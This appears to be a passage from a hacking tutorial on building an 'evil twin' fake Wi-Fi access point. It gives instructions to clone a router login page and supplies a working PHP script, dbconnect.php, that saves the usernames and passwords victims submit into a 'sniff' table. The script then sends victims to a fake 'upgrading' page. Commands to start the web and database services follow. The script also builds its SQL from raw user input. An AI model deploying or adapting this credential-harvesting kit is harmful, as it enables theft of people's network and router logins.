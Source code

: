### Configuring the web page \(LOGIN ROUTER WIFI\)

Search and copy the html of a login webpage with the following action form:

```text
<tr><td><form action="dbconnect.php" method="post">
```

And the appropriate `dbconnect.php`

```text
<?php
session_start();
ob_start();
$host="localhost";
$username="fakeap";
$pass="fakeap";
$dbname="evilTwin";
$tbl_name="sniff";

// Create connection
$conn = mysqli_connect($host, $username, $pass, $dbname);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}


$username=$_POST['username'];
$password=$_POST['password'];

$sql = "INSERT INTO sniff (username, password) VALUES ('$username', '$password')";
if (mysqli_query($conn, $sql)) {
    echo "New record created successfully";
} else {
    echo "Error: " . $sql . "<br>" . mysqli_error($conn);
}

mysqli_close($conn);

sleep(2);
header("location:upgrading.html");
ob_end_flush();
?>
```

### Initializazing services

We need to start apache2 and mysql

```text
service apache2 start && service mysql start
```
